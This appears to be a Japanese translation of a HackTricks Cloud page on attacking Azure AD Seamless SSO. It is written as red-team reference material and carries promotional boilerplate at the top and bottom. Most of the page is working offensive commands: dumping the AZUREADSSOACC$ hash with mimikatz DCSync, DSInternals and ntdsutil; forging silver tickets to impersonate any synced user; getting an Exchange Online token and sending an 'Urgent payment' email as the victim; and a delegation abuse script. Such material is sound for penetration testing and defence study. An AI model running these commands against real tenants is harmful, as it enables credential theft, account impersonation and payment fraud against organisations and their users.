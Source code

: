 # Az - シームレスSSO

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>！</strong></a></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
- **ハッキングトリックを共有するために、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する**

</details>

## 基本情報

[公式ドキュメントから：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On（Azure AD Seamless SSO）は、**ユーザーが企業ネットワークに接続された企業デバイス上にいるときに自動的にサインイン**します。有効になっている場合、**ユーザーはAzure ADにサインインする際にパスワードを入力する必要がなく**、通常はユーザー名さえ入力する必要がありません。この機能により、ユーザーはオンプレミスの追加コンポーネントなしでクラウドベースのアプリケーションに簡単にアクセスできます。

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

基本的に、Azure AD Seamless SSOは、**オンプレミスのドメイン参加PC上にいるユーザーをサインイン**します。

これは[**PHS（Password Hash Sync）**](phs-password-hash-sync.md)と[**PTA（Pass-through Authentication）**](pta-pass-through-authentication.md)の両方でサポートされています。

デスクトップSSOは、認証に**Kerberos**を使用しています。構成されると、Azure AD ConnectはオンプレミスADに**AZUREADSSOACC`$`**というコンピューターアカウントを作成します。`AZUREADSSOACC$`アカウントのパスワードは構成中に**平文でAzure ADに送信**されます。

**Kerberosチケット**はパスワードのNTHash（MD4）を使用して**暗号化**され、Azure ADは送信されたパスワードを使用してチケットを復号化します。

**Azure AD**は、Kerberos **チケット**を受け入れる**エンドポイント**（https://autologon.microsoftazuread-sso.com）を公開しています。ドメイン参加マシンのブラウザは、SSOのためにこれらのチケットをこのエンドポイントに転送します。

### オンプレミス -> クラウド

ユーザー**`AZUREADSSOACC$`のパスワードは変更されません**。したがって、ドメイン管理者はこのアカウントのハッシュを妥協させ、それを使用して**任意のオンプレユーザーを同期してAzureに接続するためのシルバーチケットを作成**することができます。
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
ハッシュを使用して、今後は**シルバーチケットを生成**できます:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
以下は、シルバーチケットを利用するために実行すべき手順です：

1. **ブラウザの起動:** Mozilla Firefoxを起動します。
2. **ブラウザの設定:**
- **`about:config`** に移動します。
- [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) の設定を指定された[値](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)に設定します:
  - `https://aadg.windows.net.nsatc.net`
  - `https://autologon.microsoftazuread-sso.com`
3. **Webアプリケーションへのアクセス:**
- 組織のAADドメインと統合されたWebアプリケーションにアクセスします。一般的な例としては[Office 365](https://portal.office.com/)があります。
4. **認証プロセス:**
- ログオン画面で、ユーザー名を入力し、パスワード欄は空白のままにします。
- 続行するには、TABキーまたはENTERキーを押します。

{% hint style="success" %}
これはMFAが有効になっている場合はバイパスされません
{% endhint %}

#### ~~クラウド専用ユーザー向けのKerberosチケットの作成~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory管理者がAzure AD Connectにアクセスできる場合、**任意のクラウドユーザーにSIDを設定**できます。これにより、Kerberos **チケットをクラウド専用ユーザーにも作成**できます。唯一の要件は、SIDが適切な[SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))であることです。

{% hint style="danger" %}
クラウド専用の管理者ユーザーのSIDを変更することは、現在**Microsoftによってブロックされています**。\
詳細については、[https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)を確認してください。
{% endhint %}

### オンプレミス -> クラウド via リソースベースの制約付き委任 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

このアカウントが含まれるコンテナまたはOU内のコンピューターアカウント（`AZUREADSSOACC$`）を管理できるユーザーは、**リソースベースの制約付き委任を設定してアカウントにアクセス**できます。
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) でゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) をフォローする**
* **HackTricks** と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有する

</details>
